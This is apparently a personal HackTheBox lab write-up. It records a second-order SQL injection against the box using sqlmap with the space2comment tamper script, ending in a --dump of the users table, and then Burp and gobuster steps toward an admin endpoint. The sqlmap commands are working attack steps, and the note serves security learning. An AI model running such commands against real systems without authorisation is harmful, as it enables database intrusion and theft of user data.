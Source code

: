 ```
ls /usr/share/sqlmap/tamper/
```

![[HackTheBox/Linux/attachments/Pasted image 20250503230104.png]]
- we want space2comment.py tamper script
Now run #sqlmap 

```
sqlmap -r updateGenre.req --second-req GetFeed.req --dbms mysql --batch --tamper=space2comment
```


Can also try this
```
sqlmap -r updateGenre.req --second-req GetFeed.req --dbms mysql --batch --tamper=space2comment --level=5 --risk=3
```

Flush results 
```
sqlmap -r updateGenre.req --second-req GetFeed.req --dbms mysql --batch --tamper=space2comment --level=5 --flush-session
```

Result - detected the UNION injection (after trial and error)

![[HackTheBox/Linux/attachments/Pasted image 20250503232807.png]]

Copying this hex to convert 
![[HackTheBox/Linux/attachments/Pasted image 20250503233244.png]]

Converting hex with python to see it's just random strings 
![[HackTheBox/Linux/attachments/Pasted image 20250503233333.png]]

Re-run sqlmap with --dump flag to dump all the data :)

```
sqlmap -r updateGenre.req --second-req GetFeed.req --dbms mysql --batch --tamper=space2comment --level=5 --dump
```

Here is the users.table 

![[HackTheBox/Linux/attachments/Pasted image 20250503233609.png]]

Returning to gobuster results for gobuster.js to find a /admin.js function 

![[HackTheBox/Linux/attachments/Pasted image 20250503233735.png]]

Navigate to this url and intercept the request with Burp

![[HackTheBox/Linux/attachments/Pasted image 20250504003728.png]]

Edit request interception rules in Burp to enable javascript (uncheck this box)

![[HackTheBox/Linux/attachments/Pasted image 20250504004014.png]]
Refresh, send request with repeater and view the response
